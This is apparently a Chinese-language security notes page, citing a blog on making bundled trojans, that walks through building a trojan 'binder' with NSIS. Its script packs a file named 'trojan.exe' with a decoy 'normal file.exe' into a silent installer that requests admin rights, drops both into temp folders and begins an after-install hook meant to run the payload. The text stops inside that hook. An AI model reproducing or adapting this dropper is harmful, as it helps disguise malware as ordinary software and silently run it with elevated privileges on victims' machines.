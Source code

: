 
## NSIS捆绑程序

> [捆绑马的制作 - yanq的个人博客 (saucer-man.com)](https://saucer-man.com/information_security/1168.html)

NSIS（Nullsoft Scriptable Install System）是一个专业的开源系统，用于创建 Windows 安装程序。

NSIS 可以用于创建能够安装、卸载、设置系统设置、提取文件等的安装程序。基于脚本文件，所以使用简单方便，同时也是免费软件，无需破解，其下载地址为https://nsis.sourceforge.io/Download

NSIS 是编译器，需要编写nsi脚本然后编译。

配置 NSIS 环境变量, 以便后续可以方便调用 `makensis.exe`, 默认路径为

```
C:\Program Files (x86)\NSIS
C:\Program Files (x86)\NSIS\Bin
```

安装 VSCode 扩展 NSIS

![image-20240717175046654](http://cdn.ayusummer233.top/DailyNotes/202407171750185.png)

编写如下 nsis 文件, 具体可参阅 [NSIS Users Manual (sourceforge.io)](https://nsis.sourceforge.io/Docs/)

```nsis
; 设置编译结果的输出文件
OutFile "安装包.exe"

; 设置exe的图标
Icon "1.ico" 

; 直接请求uac 提权
RequestExecutionLevel admin 


!include "FileFunc.nsh" 

; 静默安装，调试的时候可以把这个关了，实际运行的时候要开静默
SilentInstall silent  


; 初始化脚本
; 安装程序开始执行之前完成的任务
; 这里可以检查木马文件是否已经存在了，但是这里我先不做这么多
Function .onInit
  
FunctionEnd


; 开始安装步骤1，将"木马.exe"复制到"$TEMP\xxxxx"
Section "Section1" SEC01
    ; 这里设置一个目录，下面的文件都会被释放到这个目录底下，目录不存在的话会自动创建目录
    SetOutPath  "$TEMP\xxxxx"
    ; 指定安装包在打包时要包含进那些文件，安装时会将"木马.exe"释放到"$TEMP\xxxxx"
    File "木马.exe" 

SectionEnd

; 开始安装步骤2，将"正常文件.exe"复制到"$TEMP\xxxx2"
Section "Section2" SEC02
    SetOutPath "$TEMP\xxxx2"
    File "正常文件.exe"
SectionEnd

; 会在安装成功后执行，这里就直接执行exe就好了
Function .onInstSuccess
```